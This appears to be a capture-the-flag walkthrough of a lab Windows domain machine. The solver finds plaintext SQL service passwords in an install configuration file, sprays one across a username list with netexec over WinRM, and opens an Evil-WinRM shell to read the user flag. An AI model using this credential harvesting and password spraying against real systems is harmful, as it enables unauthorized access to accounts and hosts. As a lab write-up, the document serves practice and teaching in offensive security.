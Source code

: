   
::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::: [sql_svc]::::::::::::::::::::::  
PS C:\Windows\system32> whoami /all  
  
// Look around filesystem its easy to find, the SQL2019 directory was enticing.....kinda a trail of breadcrumbs from C:\  
  
PS C:\SQL2019\ExpressAdv_ENU> cat PackageId.dat  
`???#k?A?vof??jD  
PS C:\SQL2019\ExpressAdv_ENU> cat AUTORUN.INF  
[autorun]  
OPEN=SETUP.EXE  
ICON=SETUP.EXE,0  
PS C:\SQL2019\ExpressAdv_ENU> cat sql-Configuration.INI  
[OPTIONS]  
ACTION="Install"  
QUIET="True"  
FEATURES=SQL  
INSTANCENAME="SQLEXPRESS"  
INSTANCEID="SQLEXPRESS"  
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"  
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"  
AGTSVCSTARTUPTYPE="Manual"  
COMMFABRICPORT="0"  
COMMFABRICNETWORKLEVEL=""0"  
COMMFABRICENCRYPTION="0"  
MATRIXCMBRICKCOMMPORT="0"  
SQLSVCSTARTUPTYPE="Automatic"  
FILESTREAMLEVEL="0"  
ENABLERANU="False"  
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"  
SQLSVCACCOUNT="SEQUEL\sql_svc"  
SQLSVCPASSWORD="WqSZAF6CysDQbGb3" <--------------------------- NEW PASSWD!!!! NXC to see what is it...  
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"  
SECURITYMODE="SQL"  
SAPWD="MSSQLP@ssw0rd!"            <--------------------------- We already have this....  
ADDCURRENTUSERASSQLADMIN="False"  
TCPENABLED="1"  
NPENABLED="1"  
BROWSERSVCSTARTUPTYPE="Automatic"  
IAcceptSQLServerLicenseTerms=True  
PS C:\SQL2019\ExpressAdv_ENU>  
  
  
// test for user passwd  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ netexec winrm sequel.htb -u usernames.txt  -p 'WqSZAF6CysDQbGb3'  --continue-on-success  
  
WINRM      10.129.69.181  5985  DC01            [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)  
  
//Okay we got a user and a winrm shell.....  
  
Info: Establishing connection to remote endpoint  
*Evil-WinRM* PS C:\Users\ryan\Documents> type C:\Users\ryan\Desktop\user.txt  
abd54955ad5ec2b7b60f67*******  
*Evil-WinRM* PS C:\Users\ryan\Documents>  
  